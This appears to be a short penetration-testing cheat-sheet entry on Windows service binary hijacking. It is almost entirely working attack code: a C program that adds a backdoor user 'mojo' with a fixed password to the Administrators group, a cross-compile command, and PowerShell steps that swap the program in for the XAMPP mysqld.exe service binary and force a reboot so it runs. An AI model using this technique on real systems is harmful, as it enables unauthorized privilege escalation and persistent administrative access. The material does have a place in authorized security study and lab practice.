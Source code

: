 # Binary Hijacking

Create and add the user `mojo` to the local group `Administrators`

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user mojo password123! /add");
  i = system ("net localgroup administrators mojo /add");
  
  return 0;
}
```

Compilation

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
mv C:\xampp\mysql\bin\mysqld.exe mysqld.exe
mv .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

net stop mysql
# If denied access (unable to restart service), check if autorestart is enabled
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

# If StartMode is set to Auto
shutdown /r /t 0
```
